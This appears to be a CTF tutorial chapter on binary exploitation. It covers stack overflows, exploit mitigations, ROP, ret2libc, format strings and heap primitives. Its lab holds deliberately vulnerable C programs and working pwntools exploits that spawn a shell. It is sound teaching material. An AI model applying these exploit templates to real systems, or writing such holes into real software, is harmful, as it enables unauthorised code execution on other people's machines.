





Pwn is where you stop reading a program and start *controlling* it. In reversing (Chapter 6) you understood what a binary does; in pwn you find a place where the binary handles memory incorrectly, and you use that mistake to make it do something it was never meant to do — usually to hand you a shell on the machine hosting it. The category name is the internet's verb for total compromise, and that is literally the goal: turn a buffer that is one byte too small into arbitrary code execution.

This is the steepest category in the notebook, and it is worth being honest about why: pwn demands that you hold an accurate, low-level model of how a process actually executes — the stack, the registers, the calling convention, the loader — all at once, and then reason about what happens when that machinery is fed values it did not expect. There is no decompiler that hands you the answer. But the difficulty is also what makes it the most rewarding category, because the understanding you build is the deepest and most transferable in offensive security: you come out of pwn genuinely understanding how computers work, in a way that almost nothing else teaches.

The chapter follows the actual historical and pedagogical arc of exploitation, because each mitigation was invented to stop the previous technique, and each technique was invented to defeat the previous mitigation. We start with the classic stack overflow (control the instruction pointer), meet the mitigations (canaries, NX, ASLR, PIE), and then learn the techniques that defeat each one (ret2win, ROP, ret2libc, and the leak-then-exploit structure that defines all modern pwn). We finish with format strings and a first look at the heap. Throughout, **pwntools** is the framework that turns these ideas into working exploits. Chapter 6 (reversing) is a prerequisite — you must be able to read a binary to exploit it — and Notebook 36 develops this material into full vulnerability research.

## Why This Matters

Binary exploitation is the discipline behind the highest-impact vulnerabilities in existence. The memory-corruption bugs this chapter teaches — stack overflows, use-after-frees, format strings — are the root cause of the remote code execution CVEs that drive emergency patches, power nation-state implants, and sell for six and seven figures in the exploit market. When you read that a browser, a kernel, or a messaging app was compromised by a "specially crafted" input, you are reading about an industrialised version of exactly what this chapter teaches at CTF scale.

The professional paths are direct: vulnerability research (Notebook 36) is finding these bugs in real software; exploit development is weaponising them; and defensive roles — the engineers who design mitigations, the analysts who reverse in-the-wild exploits — need to understand offence to counter it. Even for a defender who will never write an exploit, understanding *why* NX, ASLR, and stack canaries exist, and exactly what each does and does not stop, is what makes memory-safety decisions (why Rust matters, why a particular CVE is or is not exploitable) informed rather than cargo-culted.

And the mental model is the real prize. After you have watched a return address get overwritten, built a ROP chain by hand, and leaked a libc address to defeat ASLR, concepts like "the stack," "a calling convention," and "address space layout" are no longer abstractions — they are mechanisms you have manipulated. That ground-truth understanding of program execution pays dividends across the entire field, which is why pwn, despite being the hardest category, is the one that most changes how you think.

## Part 1: The Pwn Mindset and the Exploitation Loop

Exploitation is a disciplined loop, not a flash of inspiration. Every pwn challenge follows the same arc, and internalising it keeps you oriented when the details get hard.



The recurring questions, in order:

**What protections are on?** `checksec` is the first command, always. It tells you which mitigations are enabled, and that determines which techniques are even possible. A binary with NX rules out shellcode; PIE means you need a leak; a missing canary means a straightforward overflow.

**Where is the bug?** Almost every pwn bug is a place where the program trusts an attacker-controlled *size* or *index* — a `gets()` with no bound, a `read()` of more bytes than the buffer holds, an array index that is never validated, a `printf(user_input)` that treats your data as a format string. Reversing (Chapter 6) is how you find it.

**How do I turn the bug into control?** The canonical target is the saved **return address** on the stack: overwrite it, and when the function returns, execution jumps wherever you point it. From control of the instruction pointer, everything else follows.

**How do I get a shell?** The end goal is usually `system("/bin/sh")` or an `execve` — code execution on the host, which lets you read the flag file. The techniques (ret2win, ROP, ret2libc) are all different routes to that same destination, chosen based on the mitigations.

## Part 2: Process Memory and the Stack

You cannot exploit what you cannot picture. A running process's memory is laid out in regions, and the stack is where the classic bugs live.



The essentials that make exploitation work:

**The stack grows downward** (toward lower addresses), but **buffers are written upward** (toward higher addresses). This mismatch is the entire reason stack overflows work: a local buffer sits *below* the saved return address in memory, so writing past the end of the buffer overwrites, in order, the rest of the locals, the saved frame pointer (`RBP`), and then the **saved return address**.

**A stack frame**, on function entry, contains: the function's local variables, the saved base pointer of the caller, and the return address that `call` pushed (where execution resumes when this function returns). Overwrite that return address and you control where the program goes next — that is the whole game.

**The offset is everything.** To overwrite the return address precisely, you need to know exactly how many bytes separate the start of your buffer from the saved return address. Finding that offset (via a cyclic pattern, Part 4) is the first concrete step of every stack exploit.

## Part 3: The Classic Stack Buffer Overflow

The foundational bug: a program reads more data into a fixed-size stack buffer than it can hold, and the excess overwrites adjacent stack memory — including the saved return address.

```c
void vuln() {
    char buf[64];
    gets(buf);          // gets() has NO bound -> writes as much as you send
}                       // on return, RIP = whatever you overwrote it with
```

`gets()` is the textbook culprit because it reads until a newline with no size limit; `read(fd, buf, 200)` into a 64-byte buffer, or a `strcpy` of an over-long argument, do the same. Send 64 bytes to fill `buf`, some bytes to overwrite the saved `RBP`, and then your chosen value lands on the return address.

The progression of what you do with that control defines the rest of the chapter:

1. **Crash it** — send a long string, watch it segfault. The crash *is* the proof you reached the return address (the program tried to jump to your bytes).
2. **Control RIP precisely** — find the exact offset so you overwrite the return address with a value you choose, confirmed by seeing that value in the instruction pointer at the crash.
3. **Redirect to something useful** — a hidden function (ret2win, Part 6), your own shellcode (Part 7, historical), or a chain of existing code (ROP, Part 8).

The crash-to-control step is where every stack exploit begins, and it is worth doing by hand once: overflow, find the offset, and see your `0x4141414141414141` (`AAAA...`) sitting in `RIP` under the debugger. That moment is when the abstraction becomes real.

## Part 4: The Mitigations — What Each One Actually Stops

Modern binaries ship with defences, and effective pwn is knowing precisely what each stops and how it is defeated. `checksec` reports them.

| Mitigation | What it does | What it stops | How it is defeated |
|---|---|---|---|
| **Stack canary** | A random value placed before the saved return address; checked before return | Naive stack overflows (overwriting the return address corrupts the canary → abort) | Leak the canary and include it in the payload; or avoid overwriting it (e.g. a non-linear write) |
| **NX / DEP** | Marks the stack non-executable | Running shellcode you injected onto the stack | **ROP** — reuse existing executable code instead of injecting new code |
| **ASLR** | Randomises the base addresses of stack, heap, and libraries each run | Hardcoding addresses (you cannot know where libc is) | **Leak** an address at runtime, compute the base from it |
| **PIE** | Randomises the *binary's own* base address too | Hardcoding addresses of the program's own code | Leak a binary address to de-randomise it |
| **RELRO** | Makes the GOT read-only (full) or partially so | GOT-overwrite attacks (Part 10) | Full RELRO stops it; partial RELRO leaves the GOT writable |

The crucial insight is that **these mitigations compose, and each defeats one technique, driving you to the next.** NX killed shellcode, so ROP was invented. ASLR made ROP addresses unknowable, so leaks became mandatory. This is why modern pwn is almost always **two stages**: first leak an address to defeat ASLR/PIE, then use that leak to build the real exploit (Part 9). Reading `checksec` output is reading the list of techniques you must chain to win.

```
$ checksec --file=chal
    Canary       : No        <- straightforward overflow possible
    NX           : Yes       <- no shellcode; must ROP
    PIE          : No        <- binary addresses are fixed; ret2win/ROP easy
    RELRO        : Partial   <- GOT partially writable
```

That output alone tells an experienced player the shape of the exploit: overflow the return address (no canary), use ROP (NX on), with fixed binary addresses (no PIE) — a classic ret2win or a static ROP chain.

## Part 5: ret2win — Your First Real Exploit

The gentlest real exploit, and the one every pwn journey starts with. The binary contains a function you are "not supposed" to reach — a `win()` that prints the flag or spawns a shell — but there is no legitimate path to call it. The overflow provides the path: overwrite the saved return address with the address of `win()`.

The recipe (with no canary, no PIE, so `win`'s address is fixed):

1. Find the **offset** from your buffer to the saved return address (send a cyclic pattern, crash it, see which 8 bytes landed in `RIP`, look them up).
2. Find the **address of `win()`** (from the symbols, or Ghidra, or `objdump`).
3. Send: `offset` bytes of padding, then the address of `win()`.

```
payload = b"A" * offset + p64(win_address)
```

When `vuln()` returns, instead of going back to its caller, it "returns" into `win()`. That is the entire exploit, and it teaches the core mechanic — controlling the return address to redirect execution — without the complications of NX or ASLR.

One real-world wrinkle worth knowing early: 64-bit calling conventions and stack alignment mean `win()` sometimes crashes inside a `system` call unless the stack is 16-byte aligned at the call. The fix is to prepend a single `ret` gadget (which nudges the stack by 8 bytes) before `win`'s address — a small thing that trips up every beginner exactly once.

## Part 6: Shellcode, and Why NX Ended It

Historically, the payload *was* the code: you injected machine code (**shellcode** — typically a tiny `execve("/bin/sh")`) into the buffer and overwrote the return address to point *back into your buffer*, so the CPU executed your injected bytes.

```
[ shellcode bytes ..................][padding][ RIP -> address of the buffer ]
```

This worked beautifully until **NX (No-eXecute / DEP)** marked the stack non-executable. With NX on, the CPU refuses to execute instructions from the stack, so injected shellcode causes a fault the moment control reaches it. Shellcode-on-the-stack is therefore a technique for the (now rare) `checksec` output that shows **NX: No** — a deliberately old-style challenge, or an embedded target without the mitigation.

Shellcode is still worth understanding (and you will meet it in Notebook 36 and in shellcoding-specific challenges), but for the overwhelming majority of modern pwn, NX is on and the answer is not to inject code — it is to **reuse code that is already there**, which is ROP.

## Part 7: Return-Oriented Programming

ROP is the central technique of modern pwn and the answer to NX. If you cannot inject new executable code, you **reuse the executable code already in the binary and its libraries** — tiny snippets ending in `ret`, called **gadgets** — and chain them together to perform arbitrary computation.

The mechanism: a gadget is a short sequence like `pop rdi; ret` — it pops a value off the stack into `rdi` and then returns. Because `ret` pops the next address off the stack and jumps to it, you can lay out a sequence of gadget addresses (and the data they consume) on the stack, and each gadget's `ret` chains into the next. You are programming with fragments of existing code.



The most common ROP goal is to call `system("/bin/sh")` (or `execve`), which requires setting up the argument. On 64-bit Linux the first argument goes in `rdi` (Chapter 6's calling convention), so the canonical chain is:

```
pop rdi; ret   ->   address of "/bin/sh"   ->   [ret for alignment]   ->   system
```

This lays out on the stack as: the `pop rdi; ret` gadget address, then the address of the string `"/bin/sh"`, then `system`'s address. When the overflow returns into the chain: `pop rdi` loads `/bin/sh` into `rdi`, `ret` jumps to `system`, and `system("/bin/sh")` gives a shell.

Finding gadgets: `ROPgadget --binary chal` or `ropper` lists every gadget in the binary. `one_gadget` finds single addresses in libc that spawn a shell directly (a huge shortcut when it applies). pwntools has a `ROP` object that *builds chains for you* — you say `rop.system(binsh)` and it assembles the gadgets — which is why Part 11's tooling matters so much.

**ret2libc** is the specific, ubiquitous case: the binary itself does not contain `system` or `/bin/sh`, but **libc does**, and libc is linked into the process. So you point the chain at `system` and `/bin/sh` *inside libc*. The catch is ASLR: you do not know where libc is loaded — which is exactly what Part 9 solves.

## Part 8: Defeating ASLR — Leak, Then Exploit

ASLR randomises library and stack addresses every run, so you cannot hardcode where `system` lives. The universal solution is a **two-stage exploit**: first *leak* an address that reveals where a library is loaded, compute the library's base, and then build the ret2libc chain using addresses derived from the leak.

The mechanism relies on the **GOT (Global Offset Table)** and **PLT (Procedure Linkage Table)**. When a program calls a libc function like `puts`, it goes through the PLT, which reads the function's *actual runtime address* from the GOT. That GOT entry contains a real libc address — so if you can get the program to *print* a GOT entry, you have leaked a libc address.

The canonical leak-and-exploit (against a non-PIE binary with NX and ASLR):



Step by step:

1. **Leak**: build a ROP chain that calls `puts(puts@got)` — puts prints the runtime address stored in its own GOT entry. Then **return into `main` or `vuln` again**, so you get a second chance to send a payload.
2. **Compute**: subtract the known offset of `puts` within your libc version from the leaked address to get **`libc_base`** — the base where libc was loaded this run. Every other libc symbol is now `libc_base + its_offset`.
3. **Exploit**: with the second overflow, build the ret2libc chain — `system` and `/bin/sh` are now at known (computed) addresses — and get the shell.

The two things that make this practical: you must **identify the exact libc version** (the offsets differ between versions — tools like `libc-database` match a leaked offset to a libc build, and pwntools can auto-resolve symbols from a provided libc file), and you need a bug you can **trigger twice** (hence returning to `main`). This leak-then-exploit structure is the single most important pattern in modern pwn — nearly every non-trivial challenge is a variation of it.

## Part 9: Format String Vulnerabilities

A different and elegant bug class: when a program passes attacker-controlled data as the *format string* of a `printf`-family function — `printf(user_input)` instead of `printf("%s", user_input)` — you gain both an arbitrary read and an arbitrary write.

**The leak (arbitrary read).** `printf` interprets format specifiers, and if you supply `%p %p %p`, it prints values from the stack and registers (the arguments it *thinks* it was given). This leaks stack contents, canaries, and library addresses — a free ASLR-defeating leak with no ROP required. `%s` dereferences an argument as a pointer, reading arbitrary memory if you can control that pointer's value (via positional specifiers like `%7$s`).

**The write (arbitrary write).** The `%n` specifier is the dangerous one: it *writes* the number of characters printed so far to the address given as its argument. By controlling the argument (placing a target address on the stack) and controlling the count (padding with width specifiers like `%100x`), `%n` becomes an **arbitrary write** — write any value to any address, one carefully-counted step at a time. This lets you overwrite a GOT entry (redirect a function to `system`), a saved return address, or any other target.

```
%p %p %p %p          -> leak stack values (find your input's position)
%7$p                 -> leak the 7th argument directly (positional)
%7$s                 -> read the string at the pointer in the 7th slot
%<addr>%n primitives -> write a computed value to a chosen address
```

The recognition: a program that prints your input back *and interprets it* (you send `%p` and it prints a hex value instead of `%p`) has a format string bug. It is often the *easiest* way to defeat ASLR (a one-shot leak) and, via `%n`, a complete exploitation primitive on its own. pwntools' `fmtstr_payload` automates the fiddly counting of the `%n` write.

## Part 10: A First Look at the Heap

When challenges move off the stack, they move to the **heap** — the region `malloc` manages — and heap exploitation is a deep subfield (Notebook 36 goes further). A CTF-level introduction to two primitives:

**Use-after-free (UAF).** A program frees a chunk of memory but keeps using the pointer to it. If you can allocate a new object in that freed space (the allocator reuses freed chunks), you now control the contents of what the program still thinks is the old object — including any function pointers inside it. UAF on an object with a function pointer is a common route to control. The recognition: a `free()` with no pointer nulling, followed by continued use.

**Tcache poisoning.** Modern glibc keeps freed small chunks in per-size linked lists (the *tcache*) for fast reuse, and each freed chunk stores a pointer to the next free chunk. If a bug lets you overwrite that "next" pointer (e.g. via a UAF or an overflow into a freed chunk), you can make the allocator hand out a chunk at *an address you choose* on a future `malloc` — an arbitrary-write primitive. This is the modern heap workhorse, and it is why so many heap challenges reduce to "corrupt a freed chunk's next pointer."

Heap challenges are typically the "menu" programs — allocate, free, edit, print — where the bug is a missing check in one of those operations. The strategy is to reason about the allocator's state (which chunk is where, what is in the free lists) as you drive it through allocations and frees. It is genuinely harder than stack pwn and best approached after the stack techniques are solid.

## Part 11: pwntools — The Framework

Everything above becomes practical through **pwntools**, the Python framework that is to pwn what Burp is to web. It handles process/remote interaction, packing, ROP-chain construction, ELF/libc symbol resolution, and cyclic-pattern offset-finding — the machinery you would otherwise write by hand for every challenge.

```python
from pwn import *

elf  = context.binary = ELF("./chal")      # sets arch/bits automatically
libc = ELF("./libc.so.6")                  # the provided libc, for offsets

# Local for development, remote for the flag -- same script.
p = process("./chal")            # or: p = remote("host", 1337)

# Find the offset to RIP with a cyclic pattern (no manual counting).
# p.sendline(cyclic(200)); then in gdb: cyclic_find(<value in RIP>)

rop = ROP(elf)                   # pwntools builds the chain for you
rop.puts(elf.got["puts"])        # leak: puts(puts@got)
rop.call(elf.symbols["main"])    # return to main for a second shot
payload = b"A" * offset + rop.chain()

p.sendlineafter(b"> ", payload)
leak = u64(p.recvline().strip().ljust(8, b"\x00"))   # parse the leaked address
libc.address = leak - libc.symbols["puts"]           # compute libc base
log.success(f"libc base: {hex(libc.address)}")

# Stage 2: ret2libc with computed addresses.
rop2 = ROP(libc)
rop2.system(next(libc.search(b"/bin/sh")))
p.sendlineafter(b"> ", b"A" * offset + rop2.chain())
p.interactive()                  # drop into the shell -> cat flag
```

The pieces that save the most time: `context.binary` auto-configures architecture; `cyclic`/`cyclic_find` eliminate manual offset counting; the `ROP` object assembles gadget chains from a high-level description; `ELF` resolves symbol and GOT addresses; and `libc.address = leak - offset` plus `libc.symbols[...]` turns a leak into every other libc address automatically. Learning pwntools is not optional — it is the difference between a 200-line hand-packed exploit and the 20 lines above.

## Part 12: Hands-On Lab — Three Exploits, Mitigations Honest

### 12.1 What we are building

Three exploits of increasing realism, each compiled with the mitigations stated honestly so the technique matches the defence: a **ret2win** (Part 5), a **format-string leak** (Part 9), and a **ret2libc with a puts leak** (Part 8) — the modern two-stage pattern.



You need `gcc`, `gdb` with **pwndbg**, and **pwntools** (`pip install pwntools`). These are deliberately vulnerable programs — build and run them only in your own VM.

### 12.2 ret2win

```bash
mkdir -p ~/pwn-lab && cd ~/pwn-lab
cat > win.c <<'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void win() {                       // the function with no legitimate caller
    puts("flag{ret2win_c0ntr0l_r1p}");
    system("/bin/sh");
}
void vuln() {
    char buf[64];
    puts("overflow me:");
    read(0, buf, 200);             // 200 bytes into a 64-byte buffer
}
int main() { setvbuf(stdout,0,2,0); vuln(); return 0; }
EOF
# No canary, no PIE, NX on -> classic ret2win.
gcc -fno-stack-protector -no-pie -o win win.c
checksec --file=win 2>/dev/null | grep -iE 'canary|nx|pie' || echo "(install checksec for the report)"
echo "built win"

# Sample output:
# Canary found: No     NX: enabled     PIE: No
# built win
```

```python
# ex_win.py -- find the offset, overwrite RIP with win().
from pwn import *
elf = context.binary = ELF("./win")

# Offset: buf[64] + saved RBP[8] = 72 bytes to the saved return address.
offset = 72
ret    = ROP(elf).find_gadget(["ret"])[0]   # alignment gadget (Part 5 wrinkle)

payload = b"A"*offset + p64(ret) + p64(elf.symbols["win"])
p = process("./win")
p.sendline(payload)
p.recvuntil(b"flag{")
print("[+] flag{" + p.recvuntil(b"}").decode())
```

```bash
pip install pwntools > /dev/null 2>&1
python3 ex_win.py

# Sample output:
# [+] flag{ret2win_c0ntr0l_r1p}
```

The offset (72) came from `buf[64]` plus the 8-byte saved `RBP`; in a real solve you would confirm it with `cyclic(200)` and `cyclic_find`. The extra `ret` handles the 16-byte stack alignment that `system` requires.

### 12.3 Format-string leak

```bash
cat > fmt.c <<'EOF'
#include <stdio.h>
int main() {
    char buf[128];
    char secret[] = "flag{f0rmat_str1ng_l3ak}";  // sits on the stack
    printf("say something: ");
    fgets(buf, sizeof buf, stdin);
    printf(buf);                    // BUG: user input as the format string
    printf("\n");
    return 0;
}
EOF
gcc -fno-stack-protector -no-pie -o fmt fmt.c
echo "built fmt"

# Sample output:
# built fmt
```

```python
# ex_fmt.py -- walk %p positions to find the stack secret, then read it.
from pwn import *
context.log_level = "error"

# The secret is a stack string; dumping %p slots reveals its bytes as little-endian.
p = process("./fmt")
p.sendline(b"|".join(b"%%%d$p" % i for i in range(1, 30)))
line = p.recvline().decode()
# Rebuild ASCII from the leaked 64-bit words that look like printable text.
words = [w for w in line.split("|") if w.startswith("0x")]
out = b""
for w in words:
    try:
        chunk = int(w, 16).to_bytes(8, "little")
        if all(9 <= c < 127 or c == 0 for c in chunk):
            out += chunk
    except ValueError:
        pass
print("[+] leaked:", out.replace(b"\x00", b"").decode(errors="replace"))
```

```bash
python3 ex_fmt.py

# Sample output:
# [+] leaked: say something: |flag{f0rmat_str1ng_l3ak}...
```

A single line of `%p` specifiers dumped the stack, and the secret string reassembled from the little-endian words — no overflow, no ROP. In a real challenge the same technique leaks a libc or PIE address to defeat ASLR, and `%7$p`-style positional specifiers target the exact slot.

### 12.4 ret2libc with a puts leak (the modern pattern)

```bash
cat > leak.c <<'EOF'
#include <stdio.h>
#include <unistd.h>
void vuln() { char buf[64]; read(0, buf, 200); }
int main() { setvbuf(stdout,0,2,0); vuln(); return 0; }  // no win(), no /bin/sh here
EOF
# NX on, ASLR on (system default), no canary, no PIE -> leak + ret2libc.
gcc -fno-stack-protector -no-pie -o leak leak.c
echo "built leak"

# Sample output:
# built leak
```

```python
# ex_leak.py -- Stage 1: leak puts@libc via puts(puts@got); Stage 2: ret2libc.
from pwn import *
elf  = context.binary = ELF("./leak")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")   # match the system libc
offset = 72

# Stage 1: leak.
rop = ROP(elf)
rop.puts(elf.got["puts"])          # print puts's real runtime address
rop.call(elf.symbols["main"])      # return to main for a second overflow
p = process("./leak")
p.send(b"A"*offset + rop.chain())

leak = u64(p.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.symbols["puts"]       # compute libc base
log.success(f"leaked puts = {hex(leak)}  libc base = {hex(libc.address)}")

# Stage 2: ret2libc -> system("/bin/sh").
rop2 = ROP(libc)
rop2.raw(rop2.find_gadget(["ret"])[0])           # 16-byte alignment
rop2.system(next(libc.search(b"/bin/sh\x00")))
p.send(b"A"*offset + rop2.chain())

p.sendline(b"echo PWNED; cat flag.txt 2>/dev/null; id")
print("[+]", p.recvline_contains(b"PWNED", timeout=2))
p.close()
```

```bash
echo 'flag{ret2libc_l3ak_th3n_pwn}' > flag.txt
python3 ex_leak.py

# Sample output:
# [+] leaked puts = 0x7f3c9a0b4ed0  libc base = 0x7f3c9a02f000
# [+] b'PWNED'
```

This is the pattern that defines modern pwn: the binary contained no shell and ASLR hid libc, so **stage one leaked `puts`'s address to compute the libc base, and stage two returned into libc's `system("/bin/sh")`** using addresses derived from the leak. Every non-trivial pwn challenge is a variation of this two-stage structure.

### 12.5 Extending the lab

Add a stack canary (`-fstack-protector`) to `win.c` and defeat it by leaking the canary with the format-string bug before overflowing; enable PIE (`-pie`, the modern default) and add a binary-address leak to de-randomise the program's own code; use `one_gadget` on your libc to replace the two-gadget `system("/bin/sh")` with a single magic address; drive the ret2libc leak against a *remote* target (`remote()` instead of `process()`) with a provided libc, resolving offsets from the file; and write each exploit up in the Chapter 1 Part 9 format, stating the `checksec` output and which mitigation each stage defeats.

## Part 13: Tooling

| Tool | Role |
|---|---|
| **pwntools** | The exploitation framework — interaction, packing, ROP, symbol resolution. Non-optional. |
| **checksec** | Report the mitigations — the first command, always |
| **gdb + pwndbg / GEF** | Dynamic analysis, offset-finding, watching the exploit work |
| **ROPgadget / ropper** | Find ROP gadgets in a binary |
| **one_gadget** | Find single libc addresses that spawn a shell |
| **libc-database** | Identify the exact libc version from a leaked offset |
| **cyclic (pwntools)** | Find the offset to RIP without manual counting |
| **Ghidra / IDA** | Reverse the binary to find the bug (Chapter 6) |

The spine: **checksec → find the bug in Ghidra → develop the exploit locally with pwntools + pwndbg → point it at the remote for the flag.** The single most important habit is developing against a local copy under the debugger, where you can watch registers and memory, and only switching `process()` to `remote()` once it works.

## Part 14: Common Pitfalls

**Not running `checksec` first.** The mitigations dictate the technique. Trying shellcode against NX, or hardcoding addresses against ASLR, wastes hours the first command would have prevented.

**Getting the offset wrong.** Off-by-eight on the return-address offset is the most common beginner bug. Use `cyclic`/`cyclic_find` rather than counting by hand.

**Forgetting stack alignment.** 64-bit `system`/`execve` calls crash unless the stack is 16-byte aligned. Prepend a bare `ret` gadget. This trips up everyone exactly once.

**Wrong libc version.** ret2libc offsets are libc-version-specific. Use the *provided* libc's offsets, resolve them with pwntools or libc-database, and never assume your system libc matches the remote.

**Trying shellcode with NX on.** NX means no injected code executes. The answer is ROP, not a cleverer shellcode encoding.

**Hardcoding addresses with ASLR/PIE on.** You cannot know where libc or the PIE binary is. You must leak first. Every modern exploit is leak-then-exploit.

**Only having one overflow when you need two.** The leak-then-exploit pattern needs to trigger the bug twice — return to `main`/`vuln` after the leak so you get a second payload.

**Developing against the remote.** Debug locally where you can see registers and memory; switch to `remote()` only when it works. Blind remote debugging is agony.

**Ignoring the null-byte and newline problems.** `read` vs `gets` vs `scanf` handle bad bytes differently; a `\x00` or `\n` in your payload may truncate it depending on the input function. Know which function reads your input.

**Jumping to heap challenges before stack is solid.** The heap is a genuinely harder subfield. Build fluency in stack overflows, ROP, and the leak pattern first.

## Final Revision / Summary

- Pwn turns a **memory-corruption bug into control of a program**, usually a shell on the host. It is the steepest category because it demands an accurate low-level model of process execution — and that model is the most transferable understanding in offensive security.
- The **exploitation loop**: `checksec` (what protections?) → find the bug (where does it trust attacker-controlled size/data?) → gain control (overwrite the saved **return address** → control RIP) → defeat the mitigations in the way → get a shell (`system("/bin/sh")`).
- **The stack grows down but buffers write up**, so overflowing a local buffer overwrites the saved RBP and then the **saved return address** — the prize. The **offset** to it is the first thing you find (cyclic pattern).
- The **classic overflow** (`gets`, oversized `read`) goes crash → control RIP precisely → redirect somewhere useful. Doing this by hand once — seeing `0x4141...` in RIP — is when the abstraction becomes real.
- **Mitigations, and what each stops**: **canary** (blocks naive overwrites → leak it), **NX** (blocks shellcode → **ROP**), **ASLR** (blocks hardcoded addresses → **leak**), **PIE** (randomises the binary too → leak a binary address), **RELRO** (protects the GOT). They compose, and each drives you to the next technique — which is why modern pwn is **two-stage: leak, then exploit**.
- **ret2win**: overwrite the return address with a hidden `win()` — the first real exploit. Watch for the 16-byte **stack-alignment** wrinkle (prepend a `ret`).
- **Shellcode** injects code and was killed by **NX**; only relevant when `checksec` shows NX off.
- **ROP** reuses existing code as **gadgets** (`pop rdi; ret ...`) chained via `ret`. The canonical goal is `system("/bin/sh")` with the argument set via `pop rdi`. **ret2libc** points the chain at `system`/`/bin/sh` inside libc.
